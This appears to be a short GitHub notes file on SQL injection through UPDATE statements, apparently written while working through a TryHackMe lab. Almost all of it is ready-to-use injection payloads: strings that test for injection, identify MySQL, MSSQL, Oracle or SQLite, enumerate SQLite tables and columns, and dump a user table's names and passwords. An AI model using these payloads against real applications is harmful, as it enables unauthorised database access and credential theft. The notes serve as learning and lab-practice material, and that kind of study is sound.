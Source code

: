 # SQLnotes
just notes on SQLi

CHECKING FOR UPDATE SQLI:

asd',COLUMN-NAME='test',COLUMN-NAME='hacked


IDENTIFYING DATABASE BY UPDATE:
# For MySQL and MSSQL
',COLUMN-NAME=@@version,COLUMN-NAME='
# For Oracle
',COLUMN-NAME=(SELECT banner FROM v$version),COLUMN-NAME='
# For SQLite
',COLUMN-NAME=sqlite_version(),COLUMN-NAME='



ENUMERATING SQLite for tables and columns:
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='

',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='

DUMPING TABLE INFO: BASED ON A SPECIFIC TABLE FOR CTF: SQLi Into TryHackMe; TASK3
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='

